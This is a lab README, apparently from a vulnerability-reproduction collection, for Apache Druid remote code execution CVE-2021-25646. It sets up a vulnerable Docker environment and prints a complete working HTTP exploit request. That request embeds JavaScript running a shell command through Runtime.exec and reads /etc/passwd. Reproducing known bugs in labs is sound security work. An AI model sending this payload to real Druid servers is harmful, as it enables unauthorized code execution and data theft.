

# Apache Druid Embedded Javascript Remote Code Execution (CVE-2021-25646)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Druid is an open source, distributed data store that is designed for ingesting high volumes of data to provide instant data visibility, ad-hoc analytics and queries with low latency and high concurrency.

Apache Druid includes the ability to execute user-provided JavaScript code embedded in various types of requests. This functionality is intended for use in high-trust environments, and is disabled by default. However, in Druid 0.20.0 and earlier, it is possible for an authenticated user to send a specially-crafted request that forces Druid to run user-provided JavaScript code for that request, regardless of server configuration. This can be leveraged to execute code on the target machine with the privileges of the Druid server process.

References:

- <https://blogs.juniper.net/en-us/threat-research/cve-2021-25646-apache-druid-embedded-javascript-remote-code-execution>
- <https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw>

## Vulnerable Environment

Execute following command to start an Apache Druid server 0.20.0:

```
docker compose up -d
```

After server is started, you can see the home page of Apache Druid on `http://your-ip:8888`.

## Exploit

Send this request to the server:

```
POST /druid/indexer/v1/sampler HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json

{
    "type":"index",
    "spec":{
        "ioConfig":{
            "type":"index",
            "firehose":{
                "type":"local",
                "baseDir":"/etc",
                "filter":"passwd"
            }
        },
        "dataSchema":{
            "dataSource":"test",
            "parser":{
                "parseSpec":{
                "format":"javascript",
                "timestampSpec":{

                },
                "dimensionsSpec":{

                },
                "function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"sh\",\"-c\",\"id\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
                "":{
                    "enabled":"true"
                }
                }
            }
        }
    },
    "samplerConfig":{
        "numRows":10
    }
}
```

You will see the output of the `id` command:


